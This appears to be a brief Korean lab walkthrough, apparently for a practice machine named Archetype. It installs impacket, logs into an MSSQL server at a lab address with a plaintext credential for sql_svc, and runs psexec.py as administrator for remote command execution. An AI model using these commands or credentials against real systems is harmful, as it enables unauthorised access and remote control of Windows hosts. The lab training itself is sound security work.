 impacket은 네트워크 프로토콜 작업을 위한 파이썬 클래스 모음입니다.
#
`set up`
```
git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ && python3 ./setup.py install
```

#

![image](https://user-images.githubusercontent.com/61821641/148950112-b2d5f951-4566-49b0-ae91-4ac42e9315b1.png)

위에서 얻은 password(M3g4c0rp123), user id(ARCHETYPE/sql_svc)로 mssql 서버에 접속

```
┌──(root💀kali)-[~/Downloads/git-repo/impacket/examples]
└─# python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.12.10 -windows-auth      
```

![image](https://user-images.githubusercontent.com/61821641/148949361-07103b7d-1c0e-4c03-85b8-4f39e3eb1355.png)

#
`psexec.py`
```
┌──(root💀kali)-[~/Downloads/git-repo/impacket/examples]
└─# python3 psexec.py administrator@10.129.12.10       
```

#
reference

- [github](https://github.com/SecureAuthCorp/impacket)
- [_](https://www.infosecmatter.com/rce-on-windows-from-linux-part-1-impacket/)


